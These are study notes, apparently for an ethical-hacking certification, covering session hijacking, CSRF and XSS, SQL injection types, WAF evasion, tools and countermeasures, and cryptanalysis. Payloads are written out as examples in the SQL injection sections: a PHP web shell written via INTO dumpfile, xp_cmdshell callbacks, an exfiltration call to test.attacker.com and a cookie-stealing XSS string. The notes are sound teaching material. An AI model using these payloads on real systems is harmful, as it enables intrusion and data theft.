- **Man-in-the-browser attack**
  - Using a trojan (e.g. a malicious extension) to infect the browser
  - Usual to target financial transactions
- **[Cross-Site Scripting (XSS) Attack](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss)**
  - 📝 Injecting scripts on web pages to execute on target system to get session ID.

#### CRIME attack

- CRIME = Compression Ratio Info-leak Made Easy
- Exploit against web cookies in HTTPS, TLS and SPYDY protocols that uses compression.
- Server can refuse compression to prevent it.

##### BREACH attack

- BREACH = Browser Reconnaissance and Exfiltration via Adaptive Compression of Hypertext
- Instance of CRIME attack for HTTP using gzip or DEFLATE data compression.

#### Cross-Site Request Forgery (CSRF)

- Also known as ***XSRF***, ***Sea Surf*** or ***Cross Site Request Forgery***
- 📝 Using a trusted site to submit malicious requests to target server.
- E.g. transferring funds, changing password/email
- The data is accepted as user is authenticated with a valid session on the target server.
- Usually done by a link sent by attacker to a victim usually by phishing
  - E.g. `https://cloudarchitecture.io/account?new_password=abc123`
  - Another way is to send another website e.g. `cat.com`
    - `cat.com` sends an AJAX (JavaScript) request to `https://cloudarchitecture.io/account?new_password=abc123`

##### CSRF countermeasures

- **Anti-forgery token**
  - Cookies with randomly generated values that are validated on back-end
  - Ensures that only visiting the website sets the cookie and another website does not have access to the cookie.
- **SOP (same-origin policy)**
  - Ensures that the session cookie (or anti-forgery token) can only be accessed by the legitimate website.

##### CSRF vs XSS

- **Similarities**
  - Both are client-side attacks
  - Both require need some action of the end user
    - E.g. clicking on a link or visiting a website
- **Examples**
  - CSRF: Involuntarily change password using victim's already logged cookie/session
    - Through `https://cloudarchitecture.io/account?new_password=abc123`
  - XSS: Involuntarily execute client-side code
    - `https://cloudarchitecture.io/search?q="><script>alert(document.cookie)</script>`
- **Differences**
  - XSS executes a malicious script in victims browser
    - CSRF sends a malicious request on victims behalf
  - XSS is generally more serious vulnerability than CSRF
    - CSRF often only applies to a subset of actions that a user is able to perform
    - XSS exploit can normally induce a user to perform any action that the user is able to perform
  - CSRF is "one-way" while an attacker can induce the victim to issue an HTTP request without retrieving response
    - XSS is "two-way" where response can read response and exfiltrate data to an external domain of the attacker's choosing.
- Read more on [Cross-Site Scripting (XSS)](./../13-web-applications/owasp-top-10-threats.md#cross-site-scripting-xss) and [CSRF](#cross-site-request-forgery-csrf)

### Network Layer session hijacking attacks

- The goal is to intercept the packets transmitted between the client and the server.

#### TCP/IP Hijacking

- Uses spoofed packets to hijacks the connection and redirecting victims traffic to own computer.
- Requires knowledge of IP addresses communicating with each other
- Runs on layer 3 as IP address is a layer 3 (network level) address
- 📝 Requires guessing the SEQ (sequence number) that increases by 1
  - 
  - ❗ Very hard
- Alternatively man-in-the-middle attack is used.
  1. Discover two PCs communicating with each other
  2. DoS one
  3. Redirect the traffic to own computer.
- Tools
  - [`Shijack`](https://packetstormsecurity.com/sniffers/shijack.tgz) is most common tool.
  - [`hunt`](https://packetstormsecurity.com/sniffers/hunt/)

#### IP address spoofing using source routing

- Sending forged packets server to how to route packets using spoofed victim IP.
- ❗ Source routing is a setting that's disabled and depreciated by many default servers.
- See [Source routing | Bypassing IDS and Firewall](./../03-scanning-networks/bypassing-ids-and-firewall.md)

#### RST hijacking

- Also known as **TCP reset attack**
- Flow
  1. Attacker sends an authentic-looking reset (RST) to victim using servers IP address
  2. Attacker predicts the acknowledgment number (ACK).
  3. If the acknowledgment number is correct, victims connection with server is terminated.
     - A vulnerability of [3-way handshake](./../03-scanning-networks/tcpip-basics.md#three-way-handshake)
- Tools
  - **[Colasoft's Packet Builder](https://www.colasoft.com/packet_builder/)**: packet crafting tool
  - **[tcpdump](https://www.tcpdump.org/)**: TCP/IP analysis tool

#### Blind hijacking

- Attacker can introduce injections but does not see the response.
- Can be use e.g. to send a command to change/reset a password

#### UDP hijacking

- Attacker creates and sends a forged reply to client by spoofing server IP.
- Prevents client to proceed its communication with the server.
- Easier than TCP/HTTP as no need to worry about sequence numbers or session cookies.
- Example use-cases
  - **UDP**: Control victims clock (using [NTP](./../04-enumeration/enumeration-overview.md#ntp) UDP packet) to make a certificate/session invalid
  - **DNS**: Send a false response to DNS lookup to fool the victim into resolving a domain into a malicious IP address (does not work with HTTPs)

#### Network level MITM attack

- Changes the clients default gateway to reroute the sent packets to go through the attacker.
- Done by either
  - **ARP spoofing**
    - Through altering IP address to MAC mapping table (ARP)
  - **Forged Internet Control Message Protocol (ICMP)**
    - ICMP is an extension of IP to send error messages
    - Attacker sends error messages indicating indicate problems in processing packets through the original connection.
      - Fools the server and client into routing through its path instead.

## Session hijacking tools

- [ZAP (OWASP Zed Attack Proxy)](https://www.zaproxy.org/)
  - Web application vulnerability scanner.
  - Free and open-source
- [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - Web vulnerability scanner and manual tools to inspect and modify traffic
  - Burp Proxy allows intercepting all requests and responses

## Session hijacking countermeasures

- Encrypt using e.g. HTTPs / [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec) / VPNs
- Long and random session cookies to prevent guessing
- Automatic log off if a session ends in use
- Regenerate the session key after authentication is complete.
# SQL injection overview

- Also known as ***SQLi***
- Injecting malicious SQL queries into the application.
- Allows attacker to
  - Gain unauthorized access to system e.g. logging in without credentials
  - Retrieve, modify or delete the information stored in the database
    - E.g. inserting new users, updating passwords
  - Execute code remotely
- Exploits improper input validation in web applications
- A [code injection](../13-web-applications/owasp-top-10-threats.md#code-injection) technique.
- 💡 Can test on admin panels e.g. to find using google dorks `inurl:adminlogin.aspx`,  `inurl:admin/index.php`, `inurl:adminlogin.aspx`
- 📝 Simple and quick way to test for SQL injection vulnerability is to insert a single quote (`'`)
  - You can add other SQL code after that once vulnerability is verified.

## SQL definition

- Structured Query Language
- Lets you access and manipulate databases
- SQL can be used to query both relational and non-relational databases
  - However SQL database usually means relational database.

## Testing SQL injection

### Black box testing

- Also known as ***blackbox testing*** or ***black-box testing***
- Source code is not known to the tester
- Detect places where input is not sanitized

#### Function testing

- Output is compared to expected results
- E.g. setting `?id=` query parameter to `1'` then to `1'/*` then to `'1' AND '1'='1` ..

#### Fuzz testing

- Also known as ***fuzzing*** testing
- 📝 Inputting invalid/unexpected or random data and observing the changes in the output
- Often automated
- Monitors for exceptions such as crashes, failing built-in code assertions, or potential memory leaks
- Tools: • [WSFuzzer](https://sourceforge.net/projects/wsfuzzer/) • [WebScarab](https://github.com/OWASP/OWASP-WebScarab) • [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite) • [AppScan](https://www.hcltechsw.com/products/appscan)q  [Peach Fuzzer](https://www.peach.tech/products/peach-fuzzer/)

### White box testing

- Also known as **whitebox testing** or **white-box testing**.
- Analyzing application source code.
- **Static code analysis**
  - Detect on source code
- **Dynamic code analysis**
  - Analyze during execution of the code
- Tools include: • [Veracode](https://www.veracode.com/) • [RIPS](https://github.com/robocoder/rips-scanner) • [PVS Studio](https://www.viva64.com/en/pvs-studio/)

## SQL injection methodology

1. **Information gathering**
   - E.g. database structure, name, version, type..
   - Goal is to identify vulnerabilities for SQL injection.
   - Entry points in application tested to inject queries, e.g. invalidated input fields.
   - 💡 [Error messages](./sql-injection-types.md#error-based-sql-injection) can reveal information about the database type and version.
2. **SQL injection**
   - Attacks to extract information from database such as name, column names, and records.
   - Can also insert or update certain information in the database.
     - E.g. modifying password of an existing user or inserting himself as new user to gain access.
3. **Advanced SQL injection**
   - Goal is to compromise underlying OS and network
   - Techniques include
     - Interacting with file system
       - E.g. in MySQL: `LOAD_FILE()` to read and `OUTFILE()` to write
     - Collect network information
       - E.g. reverse DNS: `exec master..xp_cmdshell 'nslookup a.com MyIP'`
       - E.g. reverse pings: `'; exec master..xp_cmdshell 'ping 10.0.0.75' --`
     - Executing commands that call OS functions at runtime
       - E.g. in MySQL: `CREATE FUNCTION sys_exec RETURNS int SONAME 'libudffmwgj.dll'`
     - Creating [backdoor](../07-malware/malware-overview.md#backdoor) to use execute commands using a remote shell
       - E.g. `SELECT '<?php exec($_GET[''cmd'']); ?>' FROM usertable INTO dumpfile '/var/www/html/shell.php'`
     - Transfer database to attackers machine
       - E.g. by using [`OPENROWSET`](https://docs.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql)

## SQL evasion

- Obfuscating input strings to avoid signature-based detection systems
- Using [IP fragmentation](../03-scanning-networks/bypassing-ids-and-firewall.md#packet-fragmentation) with optionally trying different orders

### Obfuscation against signature detection

| Technique | Plain-text | Obfuscated text |
| --------- | ---------- | --------------- |
| In-line comment | `select * from users` | `s/**/ele/**/ct/**/*/**/from/**/users` |
| Char encoding | `e` | `char(101)` |
| String concatenation | `Hello` | `'Hel'+'lo'` |
| Obfuscated codes | `/?id==1+union+(select+1,2+from+test.users)` | `/?id=(1)union(((((((select(1),hex(hash)from(test.users))))))))` |
| Manipulating white spaces | `OR 1 = 1` | `'OR'1'='1'` |
| Hex encoding | `SELECT @@version = 31` | `SELECT @@version = 0x1F` |
| Sophisticated Matches | `OR 1 = 1` | `OR 'hi' = 'hi'` |
| URL Encoding | `select * from users` | `select%20%2A%20from%20users` |
| Case Variation | `select * from users`  | `SeLeCt * FrOM UsErs` |
| Null byte | `UNION SELECT..` | `%00' UNION SELECT..` |
| Declare Variables | `UNION Select Password` | `; declare @sqlvar nvarchar(70); set @myVAR = N'UNI' + N'ON' + N' SELECT' + N'Password'); EXEC(@sqlvar)` |

### OWASP categories

- [SQL injection bypassing WAF | OWASP](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
- **Normalization**
  - Obfuscating with e.g. comments
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1+un/**/ion+sel/**/ect+1,2,3--`
    - Request passes WAF, SQL becomes `SELECT * from table where id =1 union select 1,2,3--`
- **HTTP Parameter Pollution (HPP)**
  - Injects delimiting characters into query strings
  - E.g. WAF blocks `/?id=1+union+select+1,2,3/*`
    - Attacker injects: `/?id=1&id=+&id=union=&id=+select+&1,2,3`
    - Test e.g. [google.com/search?q=hello&q=world](https://www.google.com/search?q=hello&q=world)
- **HTTP Parameter Fragmentation (HPF)**
  - Exploits SQL is built using more than parameter in backend
    - `Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
  - E.g. WAF blocks `/?a=1+union+select+1,2/*`
    - Attacker injects: `/?a=1+union/*&b=*/select+1,2`
- **Blind SQL Injection**
  - Replacing WAF signatures with their synonyms
  - E.g. WAF blocks `/?id=1+OR+0x50=0x50`
    - Attacker injects `/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1) ))=74`
- **Signature bypass**
  - E.g. WAF blocks is `/?id=1+OR+1=1`
    - Attacker injects `/?id=1+OR+0x50=0x50`

## SQL injection tools

- **[`sqlmap`](http://sqlmap.org/)**
  - Automatic SQL injection and database takeover tool
  - Requires session that can be retrieved through e.g. running [Burp Suite](https://portswigger.net/burp) as proxy.
  - Run e.g. `sqlmap -u https://cloudarchitecture.io/?id=3&Submit=Submit --cookie 'PHPSESSID=63j6; security:low'`
    - Outputs e.g.
      - `GET parameter id appears to be MySQL >= 5.0.12 AND time-based blind injectable`
      - `GET parameter id is 'Generic UNION query (NULL) - 1 to 20 columns' injectable`
    - `--dbs` parameter gets database names e.g. `mysql, phpmyadmin...`
    - `-D <database-name> --tables` parameters lists tables from given tabase name..
    - `-T <table-name> --columns` gives column names
    - `-C <comma-separated-column-names> --dump` to get columns
  - Can also crack hashes (not as fast as `hashcat`)
- [jSQL Injection](https://github.com/ron190/jsql-injection)
- Older tools:
  - [SQL Power Injector](http://www.sqlpowerinjector.com/)
  - [The Mole](https://github.com/tiankonguse/themole)
  - [OWASP SQLiX](https://wiki.owasp.org/index.php/Category:OWASP_SQLiX_Project) tool
- Mobile tools
  - [sqlmapchik](https://github.com/muodov/sqlmapchik) for Android - GUI for sqlmap
  - [Andro Hackbar](https://andro-hackbar.en.aptoide.com/app) for Android
- See also [SQL injection detection tools](#sql-injection-detection-tools)

## SQL injection countermeasures

- **Weakness**: The database server runs OS commands
  - Run database with minimal rights
  - Disable OS commands like `xp_cmdshell` (for shell access)
    - Invoking `xp_cmdshell` spawns a Windows command shell with input string passed to it for execution
    - Providing local system level access to the server.
- **Weakness**: Using privileged account to connect to the database
  - Monitor DB traffic using an IDS
  - Apply least privilege rule for accounts/applications that access databases
- **Weakness**: Error message revealing important information
  - Suppress all error messages
  - Use custom error messages
- **Weakness**: No data validation at the server
  - Filter and sanitize all client data
  - Size and data type checks protects against buffer overruns
  - E.g.

    ```c#
      // Vulnerable code:
      var command = new SqlCommand("SELECT * FROM table WHERE name = " + login.Name, connection);
      // Safe code:
      var command = new SqlCommand("SELECT * FROM table WHERE name = @name ", connection);
      command.Parameters.Add("@name", SqlDbType.NVarChar, 20).Value = login.Name;
    ```

- **Weakness**: Implementing consistent coding standards
  - Server-side input validation, data access abstraction layer, custom error messages.
- **Weakness**: Firewalling the SQL Server
  - Allow only access from web server and administrators

### SQL injection detection tools

- **Commercial scanners**
  - 📝 [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - [IBM Security AppScan](https://www.ibm.com/developerworks/library/se-scan/index.html)
  - [Acunetix Vulnerability Scanner](https://www.acunetix.com/vulnerability-scanner/)
- **Open source scanners**
  - [w3af](https://github.com/andresriancho/w3af)
  - [Wapiti](https://wapiti.sourceforge.io/)
  - [Zeus-Scanner](https://github.com/ekultek/zeus-scanner)
  - [RED HAWK](https://github.com/Tuhinshubhra/RED_HAWK)
- [Snort](./../11-firewalls-ids-and-honeypots/intrusion-detection-system-(ids)-overview.md#snort) - Open Intrusion Prevention System (IPS)
# SQL injection types

- Types include
  - [In-band SQL injection](#in-band-sql-injection)
  - [Blind SQL injection](#blind-sql-injection)
  - [Out-of-band SQL injection](#out-of-band-sql-injection)
- Other classifications sometimes include
  - **Database management system-specific SQL injection**
    - Using specific SQL statements to certain database engine.
  - **Compounded SQL injection**
    - Combining SQL injection with other web application attacks such as • insufficient authentication • DDoS attacks • DNS hijacking • XSS.
    - E.g. DDoSing through `http://cloudarchitecture.io/azure?id=2 and WAITFOR DELAY '0:0:50'`
  - **Second-order SQL injection**
    - When user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.
    - E.g. during login user name and password is retrieved as `WHERE username="$username" and password="$password"`, one could then set a password as `"); drop table users;` to delete the table and it will only executed during user login.

## In-band SQL injection

- Also known as • **classic SQL injection** • **in-band SQLi** • **classic SQLi**.
- Attacker uses one channel to inject malicious queries and retrieve results.

### Error-based SQL injection

- Causing database to throw errors and in such a way to identify the vulnerabilities
- One of the most common injections
- Examples
  - Through parameter tampering in GET/POST requests
    - E.g. adding `′` in the end: `http://testphp.vulnweb.com/listproducts.php?cat=1′`
      - Shows error: `Error: Check the manual that corresponds to your MySQL server version. Invalid syntax "' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74`
      - Reveals file names, database type etc.
    - Can use e.g. [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite)
  - Converting anything to integer: `or 1=convert(int, (select * from tablename))`
    - `Syntax error converting the nvarchar value '<sql execution result>'`

### System stored procedure

- **Stored procedure**: Precompiled function-like SQL statements supported by many DBMS.
- Injecting malicious queries into stored procedures
- E.g. `@vname` is vulnerable to injection in following procedure:

  ```sql
    CREATE PROCEDURE getDescription
      @vname VARCHAR(50)
    AS
      EXEC('SELECT description FROM products WHERE name = '''+@vname+ '''')
    RETURN
  ```

### Illegal/Logically incorrect query

- Goal is to gather information about the type and structure of the back-end database.
- Considered as a preliminary step for further attacks.
- Attacker takes advantage of error messages sent by the database on incorrect queries.
- Often exposes the names of tables and columns.
- E.g. `SELECT*FROM table_nameWHERE id=@id"` (missing whitespaces) would cause incorrect syntax error.

### UNION SQL injection

- 📝 Using the `UNION` operator to inject a malicious query.
- Allows appending results to the original query.
- E.g. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

### Tautology

- Manipulating the `WHERE` operator in the query to always have a `true` value
- 📝 Utilizes `OR` operator e.g. by appending `OR 1 = 1`
- E.g. `select * from user_details where userid = 'abcd' and password = 'anything' or 'x'='x'`
- 🤗 In logic, a tautology is a formula which is true in every possible interpretation
  - E.g. either it will rain tomorrow, or it won't rain

### Comment SQL injection

#### End-of line comment

- Also known as • **terminating query** • **single-line comment** • ***end-of-line comment** • **end of line comment**.
- 📝 Usually done by adding `--` at the end of the injected query
  - `--` (two dashes): comment out the rest so SQL engine ignores the rest of the query
- E.g. by appending `' or 1 = 1 --` in the end of the query would ignore the password check
  - `select * from users where name='injection starts here' or 1=1 --' AND password='pwd'`
  - Basically tells the server if 1 = 1 (always true) to allow the login.
  - Double dash (--) tells the server to ignore the rest of the query

#### Inline comments

- Using C-style comments to eliminate a part of the query.
- Requires attacker having a good idea of how the input is integrated.
- E.g.
  - Query is

    ```sql
      $sql = "INSERT INTO members (username, isadmin, password) VALUES ('".$username."', 0, '".$password."')"
    ```

  - Attackers input include `username` and `password`
  - Attacker enters following values to avoid password check:
    - `attacker', 1, /*`
    - `*/'pwd`
  - It then generate:

    ```sql
      INSERT INTO members (username, isadmin, password) VALUES ('attacker', 1, /*', 0, '*/'pwd')
    ```

### Piggyback query

- Also known as • **piggybacked query** • **piggy-backed query** • **statement injection**
- Appending malicious query to the end of the original one.
- Common way is to append the query delimiter (`;`)
  - E.g. `normal SQL statement + ";" + INSERT (or UPDATE, DELETE, DROP) <rest of injected query>`

## Blind SQL injection

- Also known as • **blind SQLi** • **inferential SQL injection** • **inferential SQLi** • **inference SQL injection** • **inference SQLi**
- Attacker is unable to see the direct results of the injected queries
  - instead attacker observes web applications response and behavior.
- As database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions.
- Allows remote database fingerprinting to e.g. know which type of database is in use
- Can be automated using e.g.
  - [Absinthe :: Automated Blind SQL Injection](https://github.com/cameronhotchkies/Absinthe)
  - [SQLBrute](https://securiteam.com/tools/5IP0L20I0E), multi threaded blind SQL injection bruteforcer in Python
  - [bsqlbf](https://code.google.com/archive/p/bsqlbf-v2/), a blind SQL injection tool in Perl

### Boolean-based blind SQL

- Also called **content-based blind SQL**
- Attacker forms queries to return `true` or `false`
- Depends on changing HTTP results depending on SQL results for each condition.
- Allows enumerating the database character by character (slow)
- E.g.
  - URL: `http://newspaper.com/items.php?id=2`
  - Query in back-end: `SELECT title, description, body FROM items WHERE ID = 2`
  - Attacker sends `http://newspaper.com/items.php?id=2 and 1=2` to make it return `false`
  - Attacker inspects if application shows a page or with which status code

### Time-based SQL injection

- Also called • **time delay SQL injection** • **double blind SQL injection** • **2blind SQL injection**
- 📝 Using time delay to evaluate the result (true or false) of the malicious query
- Allows for testing of existing vulnerabilities.
- Uses commands like `waitfor`, `sleep`, `benchmark`
  - Helps with database fingerprinting as MySQL, MSSQL, and Oracle have different functions to get current time.
  - E.g. `http://www.site.com/vulnerable.php?id=1' waitfor delay '00:00:10'--`
- Allows enumerating each character (very slow)
  - E.g. if database name starts with A, wait 10 seconds
  - Can use character comparison, regex or `LIKE` in Microsoft SQL.
- Time consuming, but there are automated tools such as [`sqlmap`](http://sqlmap.org/)

#### Heavy query

- Injecting queries that takes time to test
- Useful when time functions such as `waitfor` are disabled by administrator
- E.g. `SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C`
  - Can inject something like: `1 AND 1>(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)`

## Out-of-band SQL injection

- Also known as • **OOB injection** • **OOB SQLi**
- Exhilarate data through outbound channel
  - E.g. e-mail sending or file writing/reading functionalities
- Difficult as it depends on target having
  - Supported databases that can initiate outbound DNS or HTTP requests
  - Lack of input validation
  - Network access to the database server
  - Privileges execute the necessary function
- E.g. `||UTL_HTTP.request('http://test.attacker.com/'||(SELECT user FROM users))`
# Cryptanalysis

- Process of decryption of ciphers and encrypted text
- Identifies vulnerabilities in cryptosystems

## Cryptanalytic techniques

### Linear cryptanalysis

- Known as **plaintext attack**
- Applicable to block ciphers and stream ciphers.
- Given enough pairs of plaintext and corresponding ciphertext, key can be obtained
- Discovered by By Matsui and Yamagishi in 1992
- Attacker identifies the linear relation between some bits of the plaintext, some bits of the ciphertext and some bits of the unknown key.

### Differential cryptanalysis

- Discovered by Israeli researchers Eli Biham and Adi Shamir in the late 1980s.
- Applicable primarily to block ciphers, but also to stream ciphers and cryptographic hash functions.
- Applicable to symmetric key algorithms
- Comparing differences in the inputs to how each one affects the outcome
- Working with chosen plaintext originally, also works with known plaintext and ciphertext

### Integral cryptanalysis

- Used on block ciphers
- Discovered by Lars Knudsen in 1997
- Input vs Output comparison same as differential, however, runs multiple computations of the same block size input
- Attacker analyzes outputs of encrypting sets of plaintexts where some of the content is held constant and some of the content is varied through all possibilities

## Code-breaking methodologies

- **Frequency analysis**
  - Study of the frequency of letters or groups of letters in a ciphertext
  - E.g. checking cipher chunks against in languages some letters or combination of letters are used more often
  - Can be used to crack a substitution cipher, like rotation cipher ROT13
- **Trickery and deceit**
  - Requires a high level of mathematical and cryptographic skills
  - Using [social engineering techniques](./../10-social-engineering/social-engineering-types.md) to trick someone to encrypt and send a known message
- **One-time pad**
  - A shared random key that has to be the same length or longer than the cipher text
  - Each individual bit or character of plaintext is encrypted by combining it with the corresponding bit or character from the pad using modular addition
  - Assuming to be unbreakable
  - **Drawback**
    - Key distribution becomes impracticable for large messages as key length is same as as the messages

## Cryptography attacks

### Chosen-key Attack

- 📝 Attacker knows keys that are used or can choose the secret key.
- May allow breaking the larger system which relies on that cipher

### Rubber-hose attack

- Also known as **rubber hose** or **rubberhose** attack.
- 📝 Extraction of cryptographic secrets (e.g. the password to an encrypted file) from a person by coercion or torture
- E.g. beating that person with a rubber hose until they give up the encryption key.

### Ciphertext-only attack (COA)

- Also known as **known ciphertext attack**
- 📝 Attacker has only access to cipher texts
- E.g. using frequency analysis to assume plain text
- Early ciphers (using pen-and-paper) were cracked this way
- Modern ciphers have strong protections against it
  - take years to separate statistical departure from random noise

### Known-plaintext attack (KPA)

- Also known as **known-plain-text attack**
- 📝 Attacker has access to parts of plaintext and corresponding ciphertext.
- Can be used to reveal secret keys, code books.
- Classical ciphers are typically vulnerable

#### Meet-in-the-middle attack

- Also known as **meet in the middle attack**.
- Attack over certain block ciphers by decomposing the problem in two halves and proceeds on each part separately
- Reduces the effort to perform a brute-force attack
- 📝 Reason why re-encrypting an ciphertext reduces its security
  - The reason that Triple DES or Double DES is considered weak and are no longer used.
- E.g. transforming an attack that requires `2exp128` time into one that takes `2exp64` time and `2exp64` space
- Type of known-plaintext attack

### Chosen-plaintext attack (CPA)

- 📝 Attacker can choose random plaintexts to be encrypted and obtain the corresponding ciphertexts
- 📝 Two forms
  - **Batch chosen-plaintext attack**
    - Cryptanalyst chooses all plaintexts before any of them are encrypted.
    - Not so effective
  - **Adaptive chosen-plaintext attack**
    - Cryptanalyst makes a series of interactive queries
    - Subsequent plaintexts are chosen based on the information from the previous encryptions.

### Chosen-ciphertext attack (CCA)

- Also known as **chosen ciphertext attack** or **chosen-cipher-text attack**.
- Attacker gathers information by obtaining the decryptions of chosen ciphertexts.
- Early versions of RSA padding used in the SSL protocol were vulnerable.
- Types
  - **Adaptive chosen-ciphertext (CCA2)**
    - Attacker uses the results from prior decryptions to inform their choices of which ciphertexts to have decrypted
  - **Non-adaptive chosen-ciphertext**
    - Attacker chooses the ciphertexts to have decrypted without seeing any of the resulting plaintexts
  - **Lunchtime attack** or **midnight attack**
    - Attacker can have access to system for only a limited amount of time, can access only few plaintext-ciphertext pairs

### Side-channel attacks

- Based on information gained from a computer, rather than weaknesses in the algorithm itself.
- Monitors environmental factors such as power consumption, sound, timing and delay.
- E.g. [RSA keys can be revealed by listening to CPU work](https://www.pcworld.com/article/2082200/listen-up-rsa-keys-snatched-by-recording-cpu-sounds-with-a-phone.html).

#### Timing attack

- Execution times are measured to learn more about the system
- Information to find can include e.g. key, CPU used, algorithms, input, implementation details etc.
- A type of side-channel attack

### Brute-force attack

- Also known as **brute force**
- Trying every possible combination of characters to break the encryption
- 📝 ❗️ Requires a lot of time and processing power.
- See also [Brute-force attack | Cracking passwords](./../06-system-hacking/cracking-passwords-overview.md#brute-force-attack)

#### Birthday Attack

- Type of [brute-force](#brute-force-attack) attack but faster that focuses on collisions
- Based on collisions where attacker uses own plain texts to match hashes (find collisions)
- Depends on the higher likelihood of collisions found between random attack attempts and a fixed degree of permutations
- Exploits [birthday problem](https://en.wikipedia.org/wiki/Birthday_problem) in probability theory
  - E.g. 23 people in room, chance of two having same birthday is not `23 / 365 = ≈6%` but it's 50%. For 75 people it's 99% chance.

#### Rainbow table attack

- 📝 Rainbow table contains precomputed hashes to try and find out passwords
- Faster than [brute-force](#brute-force-attack) however the trade-off is that it takes a lot of storage (sometimes Terabytes) to hold the Rainbow Tables themselves.
- Tools
  - [HashCalc](https://www.slavasoft.com/hashcalc/)
  - [MD5 Calculator](http://onlinemd5.com/)

### Dictionary attack

- Attacker creates and uses a dictionary of plaintext and its ciphertext.
- E.g. words in a dictionary
- E.g. previously used passwords, often from lists obtained from past security breaches
  - See also [Dictionary attacks | Cracking passwords](./../06-system-hacking/cracking-passwords-overview.md#dictionary-attack)

### Related-key attack

- Attacker observes the operation of a cipher under several different keys
- Some relationship connecting the keys is known to attacker while key values are unknown.
- E.g. attacker knows that last 80 bits of the keys are the same

### DUHK Attack (Don't Use Hard-Coded Keys)

- Allowing attackers to access keys and read communications in certain VPN implementations
- Based on vulnerability affecting devices using ANSI X9.31 Random Number Generator (RNG) with a hard-coded seed key

### Collision attack

- Also known as **hash collision attack**
- 📝 Tries to find two inputs resulting in same hash value, i.e. a hash collision.
  - Find two different messages `m1` and `m2` such that `hash(m1) = hash(m2)`.
- Extended by **chosen-prefix collision attack**
  - Given two different prefixes `p1`, `p2`
    - The attack finds two appendages `m1` and `m2` such that `hash(p1 ∥ m1) = hash(p2 ∥ m2)`
      - where `∥` is the concatenation operation.
  - More powerful
- 💡 The larger the hash value size, the less likely there are for collisions to occur and therefore the more [collision resistant](./hashing-algorithms.md#collision-resistance) the hash algorithm

## Cryptography attack tools

- [L0phtcrack](https://www.l0phtcrack.com/)
  - Password cracking tool
  - Used mainly against Windows [SAM files](./../06-system-hacking/microsoft-authentication.md)
- 📝 [John the Ripper](https://www.openwall.com/john/)
  - Password cracking tool
  - Can run against hashed/encrypted passwords of OSes, databases etc.
  - See also [John the Ripper | Password cracking tools](./../06-system-hacking/password-cracking-tools.md#john-the-ripper)
- [CrypTool](https://www.cryptool.org/en/)
  - Open-source program for for cryptography and cryptanalysis
  - GUI to experiment with cryptographic procedures and to animate their cascades
- [Cryptobench](http://www.addario.org/cryptobench/)
  - Encrypt, decrypt, hash using many algorithms
  - Helps in the cryptanalysis process of common cryptographic schemes
# Cryptography overview

- Process of hiding information
- Can protect e.g. emails, files, and other sensitive data.

## Cryptography terms

- **Cipher**: an algorithm performing encryption and decryption
- **Clear text / plaintext**: unencrypted data
- **Cipher text**: encrypted data
- **Key**: specifies the transformation of data for encryption / decryption

## Cipher types

- **Cipher**: algorithm performing encryption and decryption.

## Classical ciphers

- Used historically but no longer used for the most part.
  
### Substitution cipher

- Every character is substituted with another one
- E.g. [Caesar Cipher](https://en.wikipedia.org/wiki/Caesar_cipher) (100 BC)

  ```txt
    Plaintext:  THE QUICK BROWN FOX JUMPS OVER THE LAZY DOG
    Ciphertext: QEB NRFZH YOLTK CLU GRJMP LSBO QEB IXWV ALD
    Key: right shift of 3
  ```

### Polyalphabetic cipher

- Based on substitution
- Uses multiple substitution alphabets
- E.g. [Vigenère cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher) from 1467
  - Has cipher has several Caesar ciphers in sequence with different shift values.

### Transposition cipher

- Plain text is repositioned (shifted) to create a ciphertext
- Also called a **zigzag cipher**
- E.g. [Rail fence cipher](https://en.wikipedia.org/wiki/Rail_fence) (invented by ancient Greeks)

  ```txt
    Clear text: WE ARE DISCOVERED. FLEE AT ONCE

    W . . . E . . . C . . . R . . . L . . . T . . . E
    . E . R . D . S . O . E . E . F . E . A . O . C .
    . . A . . . I . . . V . . . D . . . E . . . N . .

    Ciphertext: WECRLTEERDSOEEFEAOCAIVDEN
  ```

## Modern ciphers

### Computational infeasibility

- Modern cryptographic systems are built on problems which are assumed to be **computationally infeasible**
- A computation which although computable would take far too many resources to actually compute.
- Cryptography tries to ensure an infeasible computation's cost is greater than the reward obtained by computing it
- "Secure" because it's "too slow" to achieve by computers.

### Key-based ciphers

#### Symmetric encryption

- One (same) key to encrypt and decrypt
  - Known as **single key** or **shared key**.
- Either uses stream cipher or block cipher
- E.g. [AES](./encryption-algorithms.md#aes-advanced-encryption-standard), [DES](./encryption-algorithms.md#des-data-encryption-standard)
- Problems include key distribution and management
- Suitable for large amounts of data
- Harder for groups of people because more keys are needed as group increases
- Doing nothing for non-repudiation, only performs confidentiality

#### Asymmetric encryption

- Also known as **public key cryptography**
- 📝 Different keys to encrypt and decrypt
  - **Public key** to encrypt
    - Known by everyone
    - Can be issued by [Public Key Infrastructure (PKI)](./encrypting-communication.md#public-key-infrastructure-pki)
  - **Private key** to decrypt
    - Only known by the owner, secret to the public.
- It's slower than [symmetric encryption](#symmetric-encryption)
  - 📝 **Hybrid encryption**
    - Combining
      - public-key cryptography for ease of secure key exchange
      - symmetric-key cryptography for speed
    - E.g. SSL/TLS uses asymmetric encryption to create a key that's later used for encrypting/decrypting packets.
